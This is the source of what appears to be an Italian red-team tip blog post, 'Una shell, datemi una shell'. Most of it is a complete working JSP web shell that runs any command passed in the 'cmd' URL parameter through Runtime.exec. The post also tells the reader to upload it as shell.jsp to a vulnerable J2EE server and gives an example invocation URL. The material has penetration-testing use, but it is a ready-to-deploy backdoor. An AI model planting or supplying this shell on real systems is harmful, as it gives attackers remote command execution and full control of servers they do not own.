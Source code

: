 ```yaml
---
layout: tip
title: "Una shell, datemi una shell"
tags: [java, jsp, shell, web shell, shell, attacker, redteam]
level: basic
image:
  feature: shell.jpg
  credit: Jorge Brazil
  creditlink: https://flic.kr/p/qB328z
comments: true
share: true
order: 1
---
```


Sei lì e nel buio della sala riunioni del tuo cliente, di fronte al tuo caffé
da 0,34€ erogato da un dispenser mai pulito, hai trovato il modo di fare upload
di codice Java su un J2EE container.

Che sia grazie ad un metodo PUT, che sia perché l'applicazione web ha è bucata
come il groviera, vuoi una shell da buttare su al volo, qualcosa di veramente
_quick and dirty_.

Salva questo file come shell.jsp e caricalo sul web server.

{% highlight java %}
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
{% endhighlight %}

A questo punto ti basterà richiamare, l'url dell'applicazione vulnerabile più
l'eventuale percorso dove hai fatto l'upload del file, più shell.jsp, passando
come parametro il comando da eseguire:

{% highlight sh%}
http://poorwebsite.local/shell.jsp?cmd=ls%20-l
{% endhighlight %}
